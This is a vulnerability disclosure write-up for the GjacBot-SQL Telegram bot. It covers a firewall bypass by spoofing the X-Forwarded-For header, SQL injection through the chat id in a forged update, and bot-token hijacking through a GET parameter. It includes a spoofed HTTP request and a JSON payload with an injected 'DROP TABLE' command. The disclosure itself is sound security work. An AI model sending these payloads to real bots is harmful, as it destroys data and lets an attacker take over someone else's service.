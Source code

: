 # Proof of Concept for GjacBot-SQL

In this paper we will discuss about the main security vulnerabilities found in [GjacBot-SQL](https://github.com/GiacomoDevIT/GjacBot-SQL/).
(Update at 07/28/2020)

## Main vulnerabilities

### 1. XFF bypass in [waf.php](https://github.com/GiacomoDevIT/GjacBot-SQL/blob/master/waf.php)

One of the biggest issues that we found during our review is this quite easy bypassable Firewall:
you only need to change the ```X-Forwarded-For``` Header value in the HTTP-Request to one of the accepted IP addresses in order to bypass this firewall.
```
GET /path/to/bot.php?api=[] HTTP/1.1
Host: localhost:80
X-Forwarded-For: 149.154.160.0
Content-Type: application/json

-JSON UPDATE BODY-
```

### 2. SQL Injection in [funzioni.php](https://github.com/GiacomoDevIT/GjacBot-SQL/blob/master/funzioni.php)

Another very big issue found in this project is the multitude of potential SQL Injections found:
whenever ```$chat_id``` is used, there is a possible SQLi, due to the fact that it's always possible to change it in the fake request body, allowing us to drop tables, overwrite data and so on.
``` JSON
{
  "update_id": 143970686,
  "message": {
    "message_id": 235833,
    "from": {
      "id": "105; DROP TABLE bot;",
      "is_bot": false,
      "first_name": "Lorenzo",
      "username": "pwnedbyrelooandwilkenfeld ':D'",
      "language_code": "it"
    },
    "date": 1595933493,
    "text": "/start"
  }
}
```

### 3. Deadly Get Param Check in [bot.php](https://github.com/GiacomoDevIT/GjacBot-SQL/blob/master/bot.php)

Although its shortness, this file is full of destructive bugs and vulnerabilities:

The first ```if``` statement checks if the Telegram Bot API Token is sent and, if present, it's used as the bot token. This bug leads to two different options:

- Pass an empty token, which will crash the bot;
- Pass a malicious token, in order to redirect all the messages to a different bot (making the original one useless).

## Authors

You can find us on GitHub:

- [@reloonfire](https://www.github.com/reloonfire)
- [@Wilkenfeld](https://www.github.com/Wilkenfeld)

Or Twitter:

- [@reloonfireit](https://www.twitter.com/reloonfireit)
- [@Wilkenfeld](https://www.twitter.com/rpomiato)
